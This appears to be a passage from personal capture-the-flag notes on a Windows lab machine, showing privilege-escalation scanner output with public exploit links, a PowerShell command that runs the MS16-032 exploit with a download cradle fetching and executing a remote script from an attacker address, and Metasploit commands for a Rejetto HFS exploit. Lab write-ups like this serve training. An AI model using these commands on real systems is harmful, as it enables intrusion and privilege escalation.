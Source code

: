```
   [>] Description: Local DCOM DCE/RPC connections can be reflected back to a listening TCP socket allowing access to an NTLM authentication challenge for LocalSystem, which can be replayed to the local DCOM activation service to elevate privileges.
   [>] Exploit: https://www.exploit-db.com/exploits/37768/
   [>] Notes: None.

  [*] Appears vulnerable to MS15-078
   [>] Description: An EoP exists due to a pool based buffer overflow in the atmfd.dll driver when parsing a malformed font.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_078_atmfd_bof.rb
   [>] Notes: None.
  [*] Appears vulnerable to MS16-032
   [>] Description: An EoP exists due to a lack of sanitization of standard handles in Windows' Secondary Logon Service.
   [>] Exploit: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1
   [>] Notes: None.

  [*] Appears vulnerable to MS16-034
   [>] Description: An EoP exist when the Windows kernel-mode driver fails to properly handle objects in memory.
   [>] Exploit: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034
   [>] Notes: None.

 [*] Finished. Found 5 vulns :)
ERROR> C:\WINDOWS\System32\drivers\mrxdav.sys
ERROR> C:\WINDOWS\System32\win32kfull.sys
ERROR> C:\WINDOWS\System32\pcadm.dll
ERROR> C:\WINDOWS\System32\coremessaging.dll



```

I could never get this to work i tried a bunch of different ways. ippsec said that the other ms16032 exploit out there requires additional modification to work. but the empire framework offers an easier solution. \\10.10.14.49\share\Invoke-MS16032.ps1

add this at the end of ms16032

```
Invoke-MS16032 -Command "iex(New-Object Net.Webclient).downloadstring('http://10.10.14.49/sploit.ps1')"
```

then invoke it, after you load the payload you can call the funtions with Invoke-MS16032

METASPLOIT

i couldn't get it to work so on to metasploit.

```
search rejetto
use windows/http/rejetto_hfs_exec
```
